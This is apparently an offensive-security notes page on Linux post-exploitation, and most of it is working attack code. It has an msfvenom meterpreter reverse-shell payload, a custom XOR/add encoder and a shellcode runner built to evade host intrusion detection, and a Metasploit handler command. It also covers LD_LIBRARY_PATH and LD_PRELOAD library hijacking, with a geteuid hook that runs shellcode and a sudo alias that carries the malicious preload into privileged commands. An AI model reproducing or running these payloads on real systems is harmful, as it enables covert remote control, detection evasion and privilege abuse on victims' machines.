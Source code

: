 ```yaml
---
title: Linux post-exploitation
tags:
  - breach
  - operations
  - linux
  - post
  - exploitation
  - bypass
  - antivirus
  - ids
  - ips
  - meterpreter
  - reverse
  - shellcode
---
```


Linux antivirus solutions aren't as robust as Windows, given that the market
share of Linux client machines is pretty small. Linux is primarily used for
servers and other network infrastructure. Regardless, we need to make sure we
take action to obfuscate our payloads so they don't get detected by host-based
**intrusion detection systems (IDS)**.

## Encoding payloads

The following discussion goes over using **xor-and-not-and-xor (XANAX)**
encoding for delivering **meterpreter** payloads. First, we'll generate a
`payload.c` file containing our meterpreter payload:

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=${LHOST} LPORT=${LPORT} -f c -o payload.c
```

We use the following `encoder.c` code to encode our meterpreter payload with a
four (4) byte XANAX key. We randomly generate this key, so don't use the same
one identified here:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

typedef struct {
  unsigned char xor1;
  unsigned char add1;
  unsigned char xor2;
  unsigned char add2;
} xanax_keys;

static const xanax_keys keys = {.xor1 = 0xe,
                                .add1 = 0x75,
                                .xor2 = 0xbc,
                                .add2 = 0xc9};

static unsigned char buf[] =
    "\x31\xff\x6a\x09\x58\x99\xb6\x10\x48\x89\xd6\x4d\x31\xc9"
    "\x6a\x22\x41\x5a\x6a\x07\x5a\x0f\x05\x48\x85\xc0\x78\x51"
    "\x6a\x0a\x41\x59\x50\x6a\x29\x58\x99\x6a\x02\x5f\x6a\x01"
    "\x5e\x0f\x05\x48\x85\xc0\x78\x3b\x48\x97\x48\xb9\x02\x00"
    "\x20\xfb\xc0\xa8\x2d\xbe\x51\x48\x89\xe6\x6a\x10\x5a\x6a"
    "\x2a\x58\x0f\x05\x59\x48\x85\xc0\x79\x25\x49\xff\xc9\x74"
    "\x18\x57\x6a\x23\x58\x6a\x00\x6a\x05\x48\x89\xe7\x48\x31"
    "\xf6\x0f\x05\x59\x59\x5f\x48\x85\xc0\x79\xc7\x6a\x3c\x58"
    "\x6a\x01\x5f\x0f\x05\x5e\x6a\x7e\x5a\x0f\x05\x48\x85\xc0"
    "\x78\xed\xff\xe6";

void main() {
  unsigned int buf_len = (unsigned int)sizeof(buf);

  for (unsigned int i = 0; i < buf_len; i++) {
    unsigned char e = buf[i];

    e ^= keys.xor1;
    e += keys.add1;
    e = ~e;
    e += keys.add2;
    e ^= keys.xor2;

    printf("\\x%02x", e);
  }
}
```

We build `encoder.c` by invoking the following:

```bash
gcc encoder.c -o encoder.out
```

Executing `encoder.out` will print our encoded meterpreter payload to the
terminal. We create our `runner.c` code, which will decode the encoded payload
with the same XANAX key and execute the buffer on the stack:

```c
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

typedef struct {
  unsigned char xor1;
  unsigned char add1;
  unsigned char xor2;
  unsigned char add2;
} xanax_keys;

static const xanax_keys keys = {.xor1 = 0xe,
                                .add1 = 0x75,
                                .xor2 = 0xbc,
                                .add2 = 0xc9};

void main() {
  unsigned char buf[] =
      "\xa8\xde\x53\xf0\x41\x00\x27\x89\xb1\x70\xc7\xac\xa8\x30\x53\x9b\xb8\x43"
      "\x53\xf6\x43\xee\xf4\xb1\x74\x39\x61\x48\x53\xf3\xb8\x40\x49\x53\x90\x41"
      "\x00\x53\xfb\xbe\x53\xf8\xbf\xee\xf4\xb1\x74\x39\x61\xa2\xb1\x06\xb1\x20"
      "\xfb\xf9\x99\xe2\x39\x11\x8c\x1f\x48\xb1\x70\xd7\x53\x89\x43\x53\x93\x41"
      "\xee\xf4\x40\xb1\x74\x39\x60\x94\xb0\xde\x30\x65\x81\x46\x53\x9a\x41\x53"
      "\xf9\x53\xf4\xb1\x70\xd6\xb1\xa8\xe7\xee\xf4\x40\x40\xbe\xb1\x74\x39\x60"
      "\x36\x53\x9d\x41\x53\xf8\xbe\xee\xf4\xbf\x53\x5f\x43\xee\xf4\xb1\x74\x39"
      "\x61\xcc\xde\xd7\xf9";

  unsigned int buf_len = (unsigned int)sizeof(buf);

  for (unsigned int i = 0; i < buf_len; i++) {
    unsigned char e = buf[i];

    e ^= keys.xor2;
    e -= keys.add2;
    e = ~e;
    e -= keys.add1;
    e ^= keys.xor1;

    buf[i] = e;
  }

  ((void (*)())buf)();
}
```

We compile the `runner.c` ELF, making sure the stack is executable and
statically linking it so it can execute on the target:

```bash
gcc runner.c -o runner.out -z execstack -static
```

We can listen for this payload by invoking the following:

```bash
msfconsole -q -x "use multi/handler; set payload linux/x64/meterpreter/reverse_tcp; set LHOST ${LHOST}; set LPORT ${LPORT}; exploit"
```

## Library hijacking

### LD_LIBRARY_PATH

The `LD_LIBRARY_PATH` environment variable can be used to point the linker
loader for the Linux operating system to a different path when loading a target
ELF. We can create a library, `.so` file, that the target ELF needs and place it
in the `LD_LIBRARY_PATH`, causing the linker loader to load our malicious code
instead of the original library code.

When creating a library to gain code execution, we must make sure to use the
`__attribute__((constructor))` C attribute to declare the entrypoint for our
library. Here's an example:

```c
#include <stdlib.h>

static void run() __attribute__((constructor));

void run() {
    system("touch /tmp/pwn.txt");
}
```

We can compile and create shared objects by invoking the following:

```bash
gcc -Wall -fPIC -c -o run.o run.c
gcc -shared -o run.so run.o
```

We can get a listing of an ELF's dynamically linked libraries and their paths by
invoking `ldd`. We can modify the `LD_LIBRARY_PATH` environment variable with
this example invocation:

```bash
export LD_LIBRARY_PATH=/my/new/path
```

## LD_PRELOAD

We can use the `LD_PRELOAD` environment variable to specify a particular shared
object to load before starting execution of a target ELF. We can use this
feature to clobber the symbol of an already loaded shared object, enabling us to
gain code execution while also altering the target process' code execution.

The following example clobbers the `uid_t geteuid(void)` symbol to gain code
execution since `geteuid` is called on the start of a process:

```c
#define _GNU_SOURCE
#include <dlfcn.h>
#include <stdio.h>
#include <stdlib.h>
#include <sys/mman.h>
#include <unistd.h>

static unsigned char buf[] = "<YOUR SHELLCODE HERE>";

// redefining geteuid
uid_t geteuid(void) {
  // ask the linker load to get a pointer to the original geteuid
  typeof(geteuid)* old_geteuid;
  old_geteuid = dlsym(RTLD_NEXT, "geteuid");

  // fork to avoid crashing original process
  if (fork() == 0) {
    // make the shellcode buffer executable, then execute it
    intptr_t pagesize = sysconf(_SC_PAGESIZE);
    if (mprotect((void*)(((intptr_t)buf) & ~(pagesize - 1)), pagesize,
                 PROT_READ | PROT_EXEC)) {
      return -1;
    }
    ((void (*)())buf)();
  } else {
    // return call for original geteuid to parent process
    return (*old_geteuid)();
  }
}
```

We can compile this shared object by invoking the following:

```bash
gcc -Wall -fPIC -z execstack -c -o bad_geteuid.o bad_geteuid.c
gcc -shared -o bad_geteuid.so bad_geteuid.o -ldl
```

And we can specify that processes load this library with `LD_PRELOAD` by
invoking the following:

```bash
export LD_PRELOAD=$(realpath bad_geteuid.so)
```

`sudo` clobbers environment variables of the calling process, however, we can
still pass `LD_PRELOAD` by creating an alias in `~/.bashrc`, for example:

```bash
alias sudo="sudo LD_PRELOAD=$(realpath ~/bad_geteuid.so)"
```
